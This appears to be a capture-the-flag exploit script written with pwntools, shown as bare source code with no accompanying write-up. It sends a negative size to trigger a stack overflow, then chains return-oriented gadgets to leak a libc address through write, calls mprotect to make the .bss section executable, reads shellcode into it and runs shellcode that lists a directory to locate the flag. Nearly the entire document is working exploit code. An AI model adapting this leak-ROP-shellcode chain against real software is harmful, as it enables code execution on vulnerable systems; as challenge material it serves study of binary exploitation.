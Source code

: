 ```bash
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data,num           :u32(p.recvuntil(data)[-num:].ljust(4,b'\x00'))
uu64    = lambda data,num           :u64(p.recvuntil(data)[-num:].ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
#p.readuntil(b'\n')
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')
context.terminal = ['gnome-terminal','-x','sh','-c']

rdi=0x0000000000401443
rsi_r15=0x0000000000401441
ret=0x000000000040101a
bss=0x404000
main = 0x401311

write_got = elf.got['write']
write_plt = elf.plt['write']
#1 write(1,write_addr,0x6)
p.sendlineafter('size?\n','-1')
pl = b'a'*0x38+p64(rdi)+p64(1)+p64(rsi_r15)+p64(write_got)+p64(0)+p64(write_plt)+p64(main)
p.send(pl)
libc_base = uu64(p.recvuntil('\x7f')[-6:])-libc.sym['write']
li(hex(libc_base))
open_addr = libc_base + libc.sym['open']
read_addr = libc_base + libc.sym['read']
puts_addr = libc_base + libc.sym['puts']
syscall = libc_base + libc.sym['syscall']
sys = libc_base + libc.sym['system'] 
bin_sh = libc_base + next(libc.search(b'/bin/sh'))
mprotect = libc_base+libc.sym['mprotect']
rdx = libc_base + 0x0000000000142c92
#2 mproject(bss,0x1000,7)
p.sendlineafter('size?\n','-1')
pl = b'a'*0x38+p64(rdi)+p64(bss)+p64(rsi_r15)+p64(0x1000)+p64(0)+p64(rdx)+p64(7)+p64(mprotect)+p64(main)
p.send(pl)

#3 read(0,bss+0x200,0x100)
p.sendlineafter('size?\n','-1')
pl = b'a'*0x38+p64(rdi)+p64(0)+p64(rsi_r15)+p64(bss+0x200)+p64(0)+p64(rdx)+p64(0x100)+p64(read_addr)+p64(bss+0x200)

p.send(pl)
p.recv()

#.4 OGW
shellcode = b''
shellcode += asm(shellcraft.open('./'))
shellcode += asm(shellcraft.getdents64(3, bss+0x300, 0x100))
shellcode += asm(shellcraft.write(1,bss+0x300, 0x100))
shellcode += asm('''
        mov rdi, 0; mov rsi, 0x%x;mov rdx, 0x100;mov rax, 0; syscall; push rsi; ret;
        ''' % (main))

p.send(shellcode)

p.recvuntil('flag')
flag20 = b'flag'+p.recv(20)
```